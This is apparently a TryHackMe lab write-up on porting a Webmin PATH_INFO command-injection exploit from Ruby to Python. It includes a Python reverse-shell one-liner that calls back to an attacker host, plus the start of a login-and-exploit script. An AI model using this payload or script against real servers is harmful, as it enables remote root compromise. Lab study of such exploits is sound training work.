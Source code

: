 ```  
The code continues with other conditional branches and processing steps that are not included in the provided snippet.  

`if (!open(FILE, $p)) { ... }` attempts to open the file specified by the path ($p). If the file cannot be opened (possibly due to Unix permissions), it calls the error_exit function with the error message defined as &text('view_eopen', $p, $!).  
```  

**Summary**  

Before the patch, the app could be vulnerable to invalid input if the PATH_INFO parameter from the URL contained certain characters, such as pipes (`|`), leading/trailing whitespace, or null characters (`\0`), which could potentially be used for malicious purposes. This is an example of improper input validation.

**Payloads**  

In the given exploit scenario targeting Webmin, the most effective program/command to use would depend on the specific vulnerability being exploited and the intended goal. However, based on the provided code snippet, the exploit leverages the ability to execute arbitrary commands with root privileges. Therefore, common choices for the payload command in this case might be `bash` or `perl`, as they are commonly available on Unix-like systems and provide extensive functionality for executing commands and interacting with the system.  

> This output corroberates with the correct THM answer: "system shell"  

## **So we now know our payload needs to be a system shell of sorts**
It can be something simple or complex.  

**Example payload**  
```python  
payload = "python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\""+ lhost + "\"," + lport + "));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])\'"
```  

## **The purpose of this lab is to port the Ruby exploit to Python. Here is the version I came up with.**  

```python  
#!/usr/bin/env python

import requests, string, secrets

def rand():
    alphaNum = string.ascii_letters + string.digits
    randChar = ''.join(secrets.choice(alphaNum) for i in range(5)) 
    return randChar

targetIP = "x.x.x.x"
# So the remote can beam home to the mothership, set localhost and port...
lhost = "x.x.x.x"
lport = "53"

data = {'page' : "%2F", 'user' : "user1", 'pass' : "1user"}
url = "http://" + targetIP + "/session_login.cgi"

r = requests.post(url, data=data, cookies={"testing":"1"}, verify=False, allow_redirects=False)

if r.status_code == 302 and r.cookies["sid"] != None:
    print("[+] - Login success, executing payload...")
    sid = r.cookies["sid"].strip("/=; ")
    print("- Using session id: " + sid)
    rnum = rand()
```